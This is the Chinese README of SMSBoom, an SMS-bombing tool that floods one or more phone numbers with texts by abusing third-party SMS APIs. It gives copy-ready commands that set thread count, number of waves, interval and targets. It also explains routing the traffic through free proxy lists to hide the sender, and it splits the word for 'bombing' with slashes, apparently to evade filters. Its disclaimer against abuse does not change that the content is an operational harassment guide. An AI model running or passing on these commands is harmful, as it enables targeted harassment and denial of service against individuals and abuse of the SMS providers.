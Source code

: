 # SMSBoom

## 免责声明

1. 使用此程序请遵守当地的法律法规，禁止滥用、恶意使用，**触犯法律所造成的问题均由使用者承担**。
2. 本程序仅供娱乐，**禁止滥用** 和二次 **禁止用于商业用途**。

## Feature

1. 通过自定义 `api.json` 的方式定义接口.  
2. 支持关键字替换. **时间戳** `[timestamp]` **手机号** `[phone]`  
3. 多线程/异步 请求.  
4. 友好的命令行参数支持.  
5. 通过代理调用短信接口, 支持 http, socks4, socks5代理.
6. 使用随机的 User-Agent.
7. 可指定轰炸次数, 轰炸间隔时间.

## Quick Start

#### Step1. 下载 EXE 可执行文件

请移步到项目内下载smsboom.exe

#### Step2. 运行  

1. 在任意盘(**除C盘外**)中新建一个文件夹.将程序移动到其中. e.g.  

2. `Win`+`R` 打开cmd.输入存放的盘符.例如: `E:` 然后cd到文件夹,例如 `cd SMS`

3. 确认 cmd 路径是 EXE 所在路径后,cmd 输入:`smsboom.exe`,若出现命令提示,则说明脚本已正常运行.

4. 传递命令示例

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),只轰//炸一波。

```shell
smsboom.exe run -t 64 -p 198xxxxxxxxx
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次

```shell
smsboom.exe run -t 64 -p 198xxxxxxxxx -f 60
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```shell
smsboom.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
smsboom.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30 -e
```

启动64个线程,轰//炸多个人的手机号(138xxx,139xxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
smsboom.exe run -t 64 -p 138xxxxxxxx -p 139xxxxxxxx -f 60 -i 30 -e
```

## 命令行参数

- 运行:

```shell
# 输出帮助信息
smsboom.exe --help

Usage: smsboom.exe [OPTIONS] COMMAND [ARGS]...    
Options:
--help  Show this message and exit.
Commands:
run       传入线程数和手机号启动轰//炸,支持多手机号
asyncrun  以最快的方式请求接口(真异步百万并发)
onerun    单线程(测试使用)
```

- 启动轰//炸  

帮助信息:

```shell
smsboom.exe run --help

Usage: smsboom.exe run [OPTIONS]

传入线程数和手机号启动轰//炸,支持多手机号

Options:
-t, --thread INTEGER       线程数(默认64)
-p, --phone TEXT           手机号,可传入多个再使用-p传递  [required]
-f, --frequency INTEGER    执行次数(默认1次)
-i, --interval INTEGER     间隔时间(默认60s)
-e, --enable_proxy BOOLEAN 开启代理(默认关闭)
--help                     Show this message and exit.
```

### 使用代理

本项目不能通过API自动获取代理, 你可以从下面的免费代理网站中手动获取代理, 或是选择使用自己的代理, 或是不使用代理.

> [https://proxyscrape.com/free-proxy-list](https://proxyscrape.com/free-proxy-list)

> [https://openproxy.space/list](https://openproxy.space/list)

将代理添加到 `http_proxy.txt` `socks4_proxy.txt` `socks5_proxy.txt` 三个文件中, 命令参数添加 `-e` 执行即可.